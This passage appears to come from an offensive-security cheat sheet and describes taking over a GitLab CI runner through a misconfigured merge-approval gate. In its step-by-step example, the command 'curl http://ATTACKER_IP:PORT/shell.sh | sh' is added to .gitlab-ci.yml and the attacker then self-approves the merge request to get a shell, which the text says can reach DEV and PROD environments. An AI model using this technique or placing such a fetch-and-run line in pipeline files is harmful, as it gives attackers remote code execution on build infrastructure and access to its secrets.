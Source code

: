 ## TIP: Depending on the context the runner is running, you may even compromise DEV and PROD environments respectively.

# MISCONFIGURED ACCESS GATES

## EXAMPLE:

#### 1) Update the .gitlab-ci.yml file with "curl http://ATTACKER_IP:PORT/shell.sh | sh" on the script paragraph.

#### 2) Commit changes

#### 3) Create merge request

#### 4) Approval is OPTIONAL (Obviously this is a logic flaw of Gitlab) so we can approve our own merge requests without restrictions

#### 5) Enjoy your shell
